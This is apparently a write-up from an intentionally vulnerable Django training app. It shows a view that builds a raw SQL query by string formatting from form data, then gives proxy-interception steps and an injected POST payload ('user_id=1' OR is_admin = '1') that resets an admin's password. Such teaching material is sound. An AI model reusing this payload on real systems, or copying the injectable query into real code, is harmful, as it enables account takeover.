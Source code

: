 # A1: SQL Injection Concatentation

### Description

This vulnerability can be found at app/views/users/views.py
```python
@require_http_methods(["GET", "POST", "PUT", "DELETE"])
@user_is_authenticated
def user_view(request, user_id):
    if request.method == "POST":
        form = request.POST
        if not form:
            return HttpResponse("User " + str(user_id) + "POST")
        user_id_form = form['user_id']
        table_name = User.objects.model._meta.db_table
        # The order by is_admin='0' moves admin to the first in list
        # which allows sql injection
        users = User.objects.raw(
            "SELECT * FROM %s WHERE user_id='%s' ORDER BY is_admin='0'"
            % (table_name, user_id_form))
```

The code is directly using form data to execute SQL command. An attacker can change the form to have access to some queries and update their information.

### Attack

This is one way of doing a command injection:
1. Set up an intercepting proxy
2. Login and navigate to account settings page
3. Fill the form and submit
4. Intercept the POST request, which should look like:
    ```
    csrfmiddlewaretoken=GH8SDbVSwfmxi48PtglTK5i8j9QAIw1IqlWQ9NOLvhTcAe7gDGODqx59qqJvrKK4&user_id=1&email=&first_name=&last_name=&password=&confirm=
    ```
5. Execute a SQL injection as below and resend the request:
    ```
    csrfmiddlewaretoken=GH8SDbVSwfmxi48PtglTK5i8j9QAIw1IqlWQ9NOLvhTcAe7gDGODqx59qqJvrKK4&user_id=1' OR is_admin = '1&email=&first_name=&last_name=&password=123456&confirm=123456
    ```
6. This injection changes the first found admin's password to 123456 